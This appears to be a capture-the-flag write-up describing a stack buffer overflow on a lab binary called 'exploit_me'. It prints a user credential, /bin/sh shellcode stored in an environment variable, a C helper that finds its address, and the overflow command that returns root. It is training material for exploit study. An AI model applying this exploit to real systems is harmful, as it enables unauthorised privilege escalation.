 starting from the writeup1 when we are connected to `zaz` user with `646da671ca01bb5d84dbb5fb2238dc8e`.

there is a different attack we can use on the buffer overflow on the `exploit_me` binary.
instead of using a `ret2libc` attack with system, we can use a shellcode stored in a environment variable.
we will put a shellcode (assembly instructions in hex format, the kind used by any program when loaded in memory) in a environment variable, and redirect the main's return address to the environment variable's address.

shellcode found on https://axcheron.github.io/linux-shellcode-101-from-hell-to-shell/.

`export code=$(python -c "print('\x90'*8 + '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80')")`

and simple C program to get the address of the environment variable:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) { printf("%p\n", getenv(argv[1])); }
```

`gcc main.c && ./a.out code`: `0xbfffff4b`

we know from the previous writeup that the buffer is 140 bytes long:

```shell
./exploit_me $(python -c 'print "i"*140 + "\x4b\xff\xff\xbf"')
```

and we are root !
